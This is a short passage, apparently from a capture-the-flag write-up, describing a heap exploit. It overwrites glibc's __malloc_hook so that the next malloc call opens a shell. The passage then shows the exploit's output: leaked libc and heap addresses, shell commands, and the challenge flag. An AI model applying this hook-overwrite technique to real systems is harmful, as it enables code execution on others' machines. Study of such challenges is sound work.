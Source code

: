 `__malloc_hook` is officially overwritten and by calling `malloc`, it will trigger `__malloc_hook` and we will be greeted with a shell.

```
[+] Libc:          0x7fa5b5957000
[+] __malloc_hook: 0x7fa5b5d1bb10
[+] Heap:          0x55fc941d9000
[*] Switching to interactive mode
$ whoami
buttercup
$ ls
$ cat flag
inctf{nulls_nulls_3v3rywh3r3}
```
